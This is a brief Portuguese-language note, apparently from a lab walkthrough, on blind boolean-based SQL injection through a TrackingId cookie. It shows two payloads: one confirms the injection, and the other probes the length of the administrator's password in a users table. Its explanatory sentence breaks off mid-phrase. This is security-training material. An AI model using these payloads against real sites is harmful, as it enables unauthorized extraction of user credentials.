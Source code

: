 ```yaml
---
description: Resolvendo a query blind em boolean based
---
```


# Como quebrar e corrigir a query no boolean based.

<mark style="color:yellow;">Cookie: TrackingId=IwFid1TZfsjh5UAO</mark><mark style="color:red;">' AND '1' = '1</mark>   (Quando colocado o aspas e and

<mark style="color:green;">' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>=20)='a</mark>
